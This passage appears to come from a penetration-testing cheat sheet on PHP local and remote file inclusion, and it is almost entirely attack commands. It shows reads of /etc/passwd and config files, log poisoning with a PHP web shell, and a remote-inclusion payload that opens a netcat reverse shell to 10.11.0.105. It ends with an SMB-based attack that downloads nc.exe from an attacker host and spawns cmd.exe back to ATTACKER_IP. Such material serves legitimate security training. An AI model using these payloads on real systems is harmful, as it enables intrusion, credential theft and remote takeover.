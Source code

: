 
### LFI/RFI


```
fimap -u "http://10.11.1.111/example.php?test="

# Ordered output
curl -s http://10.11.1.111/gallery.php?page=/etc/passwd
/root/Tools/Kadimus/kadimus -u http://10.11.1.111/example.php?page=

http://10.11.1.111/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd && base64 -d savefile.php
http://10.11.1.111/page=http://10.11.1.111/maliciousfile.txt%00 or ?
?page=php://filter/convert.base64-encode/resource=../config.php
../../../../../boot.ini

amap -d 10.11.1.111 8000

# LFI Windows
http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00

# Contaminating log files
root@kali:~# nc -v 10.11.1.111 80
10.11.1.111: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.111] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
 
http://10.11.1.111/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig

# RFI:
http://10.11.1.111/addguestbook.php?LANG=http://10.11.1.111:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://10.11.1.111/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
	<?php echo shell_exec($_GET['cmd']);?>
- Start SMB Server in attacker machine and put evil script
- Access it via browser (2 request attack):
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
	- http://10.11.1.111/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```



### SQL-Injection
